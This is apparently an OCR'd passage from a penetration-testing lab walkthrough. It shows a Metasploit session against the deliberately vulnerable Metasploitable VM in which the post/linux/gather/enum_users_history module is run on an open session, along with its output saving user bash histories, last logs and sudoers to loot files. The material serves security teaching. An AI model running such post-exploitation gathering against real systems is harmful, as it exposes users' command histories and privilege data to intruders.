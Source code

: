 Enumerate User History

Finally, we can make a list of each user's shell history, if it's available, using the enum_user_history module:

msf post(enum_system) > use post/linux/gather/enum_users_history
msf post(enum_users_history) > set SESSION 1
SESSION => 1
msf post(enum_users_history) > run

[+] Info:
[+]    Warning: Never expose this VM to an untrusted network!Contact: msfdev[at]metasploit.comLogin with msfadmin/msfadmin to get started
[+] 	Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
[*] bash history for postgres stored in /root/.msf5/loot/20160326215328_metasploitable_10.0.0.27_linux.enum.users_996219.txt
[*] bash history for user stored in /root/.msf5/loot/20160326215407_metasploitable_10.0.0.27_linux.enum.users_262244.txt
[*] Last logs stored in /root/.msf5/loot/20160326215503_metasploitable_10.0.0.27_linux.enum.users_745834.txt
[*] Sudoers stored in /root/.msf5/loot/20160326215503_metasploitable_10.0.0.27_linux.enum.users_002882.txt
[*] Post module execution completed
msf post(enum_users_history) >

Flags
